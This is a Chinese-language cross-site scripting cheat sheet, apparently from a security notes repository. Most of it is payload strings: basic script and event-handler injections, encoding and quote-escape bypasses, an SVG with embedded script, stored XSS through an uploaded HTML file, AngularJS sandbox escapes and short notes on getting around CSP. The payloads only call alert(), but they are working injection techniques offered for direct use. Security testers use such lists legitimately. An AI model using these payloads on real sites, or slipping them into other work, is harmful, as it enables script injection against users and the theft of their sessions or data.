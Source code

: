 ## 常用POC:
- `"><script>alert(1)</script>`  
- `<image src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
JavaScript伪协议，超链接的地方就可能会存在
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 绕过防护POC：
- 在标签中`/`可代替空格  
- = 两边添加TAB键  
- poc进行16进制编码，去掉`;`仍然可执行  
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `  
`%3Ca%20hREf%20%3D%20%27javasCriPt%3Aalert(%2Fxss%2F)%27%3Eclick%20me!%3C%2Fa%3E` javascript伪协议  

## 事件执行触发POC:
- accesskey:设置快捷键  
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动  
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>
```

## 上传文件导致存储型XSS
上传文件修改为 `.html` ，内容为 `<image src=1 onerror=alert(document.domain)>`

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等